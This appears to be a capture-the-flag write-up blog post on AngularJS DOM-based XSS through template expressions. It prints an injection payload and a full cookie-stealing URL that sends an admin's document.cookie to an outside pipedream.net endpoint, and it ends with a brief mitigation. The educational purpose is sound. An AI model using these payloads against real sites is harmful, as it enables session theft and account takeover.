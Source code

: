 ```yaml
---
title: Angular XSS DOM BASED
description: Explanation of XSS Angular DOM based vulnerability.
date: "2022-08-07T10:00:00+02:00"

---
```



# Introduction

Tonight I'm doing another challenge for XSS vulnerabilities, specially with AngularJS which is a really common framework for developing webapps.

As you may know ["Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities"](https://en.wikipedia.org/wiki/Cross-site_scripting)
This time I had some fun with this new challenge which consisted about finding a XSS DOM-based vulnerability with ["Angular Expressions"](https://www.w3schools.com/angular/angular_expressions.asp)




## First things first!

The way Angular binds data into the HTML is via expressions, and AngularJS expressions are written in double braces `{{}}`

- As a first step (and we assume our vulnerable webapp is using Angular as the underlying technology) a `ng-app` **must appear** inside the source code. Otherwise our AngularJS expressions won't work
- Then, a vulnerable user input should be localized (in order to inject our payloads)
- Before the last step, we must ensure that the vulnerable input field is within the `ng-app` directive
- At last, let's put our XSS Payload inside braces, we can test it with one such as: `` {{$on.constructor("alert(1)")()}}`` *


* We are using "$on.constructor" in this case because we want to use dependency injection upon the new DOM node creation, you can find more info [here](https://angular.io/guide/dependency-injection#providing-dependency-1), in this case `NgOnInit` wouldn't work for us because when this latter one is called by Angular, the DOM has been already created. ["Here's an article with more information about it"](https://medium.com/angular-in-depth/the-essential-difference-between-constructor-and-ngoninit-in-angular-c9930c209a42)

### Hands on! :fire:

We have this challenge, with an input that seems to be "unsafe":
![xss dom image 1](xssdom1.PNG)

Let's see if the response source-code contains something interesting:
![xss dom image 2](xssdom2.PNG)

Ahá! We can see the `ng-app` directive and inside it our string (my name in this case)

Let's try to put a simple payload, like the one mentioned avobe ``('{{$on.constructor("alert(\`hello!\`)")()}}')``...
![xss dom image 3](xssdom3.PNG)

And we have succesfully injected our payload.
It's clearly seen that this payload is seen in the query string part of the URI, so we can use this to steal the admin's cookie.
For this purpose we will have to do 2 things:

1- Adapt the payload to send the response to our desired endpoint (pipedream.net in my case, for simplicity's sake)
2- Let the admin execute the payload (as this is a vulnerable site, it's done via the contact page :) )

In this example, I'm adapting the payload for stealing the cookie's admin like this:

```
$<protocol>://<domain>/contact?url=[[[[PAYLOAD]]]]

The payload can be then teared down like:
{{$on.constructor("href=`desired-endpoint.com?querystring=`.concat(admin.cookie)")()}}

And the resulting query being:
http://vulnerable_domain.com/?url={{$on.constructor("document.location=`https://eoj1ovww5kfcgvi.m.pipedream.net?cookie=`.concat(document.cookie)")()}}"
```
Aaand... there it is! 
![xss dom image 4](xssdom4.PNG)

We have captured our :sparkles: flag! :sparkles:

## How this vulnerability could have been avoided?

There's a really simple answer: You should **avoid** allowing data from any untrusted source to be dynamically written to the HTML document!! 


Thank you for being here :heart: 
See you around!